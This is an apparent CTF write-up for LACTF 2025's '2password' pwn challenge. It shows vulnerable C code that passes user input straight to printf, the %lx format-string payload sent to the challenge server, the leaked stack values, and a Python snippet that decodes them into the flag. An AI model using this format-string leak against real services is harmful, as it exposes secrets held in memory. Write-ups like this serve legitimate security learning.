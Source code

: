 # LACTF2025

[LACTF](https://platform.lac.tf/) was one of the most fantastic ctf I've played ever.

Unfortunately, I could not spend enough time to solve challenges.
I solved 4 reversing challenges, 2 pwn challenges in the last few hours of CTF competition.

## 2password
<primary-label ref="pwn"/>
<secondary-label ref="user"/>
As we can see, there's a format-string-bug in main function. 
```c
int main(void) {
  setbuf(stdout, NULL);
  char username[42];
  readline(username, sizeof username, stdin);
  char password1[42];
  readline(password1, sizeof password1, stdin);
  char password2[42];
  readline(password2, sizeof password2, stdin);
  FILE *flag_file = fopen("flag.txt", "r");
  if (!flag_file) {
    puts("can't open flag");
    exit(1);
  }
  char flag[42];
  readline(flag, sizeof flag, flag_file);
  if (strcmp(username, "kaiphait") == 0 &&
      strcmp(password1, "correct horse battery staple") == 0 &&
      strcmp(password2, flag) == 0) {
    puts("Access granted");
  } else {
    printf("Incorrect password for user ");
    printf(username);
    printf("\n");
  }
}
```
Send format strings to server, and got flag form leaked stack.
```bash
[~/dc/ctf/la/2password] >>>nc chall.lac.tf 31142
Enter username: %lx/%lx/%lx/%lx/%lx/%lx/%lx/%lx/%lx/%lx/%lx/%lx/%lx/%lx/%lx/%lx/
Enter password1: Enter password2: a
Incorrect password for user 7ffe10bda030/0/0/5736b18244a8/0/75687b667463616c/66635f327265746e/7d38367a783063/0/0/
```
```py
leak = "75687b667463616c/66635f327265746e/7d38367a783063"
little = ''.join(leak.split("/")[::-1])
flag = bytes.fromhex(little).decode()[::-1]
print(f"{flag=}")
```
